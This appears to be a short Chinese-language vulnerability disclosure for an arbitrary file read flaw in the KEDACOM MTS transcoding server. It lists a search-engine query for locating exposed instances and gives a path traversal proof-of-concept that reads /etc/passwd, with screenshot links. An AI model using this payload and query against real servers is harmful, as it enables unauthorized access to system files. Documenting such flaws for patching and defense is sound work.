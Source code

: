 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>MTS转码服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MTS转码服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639570369459-12a283d6-4165-44c6-9618-0943fb751a91.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791.png)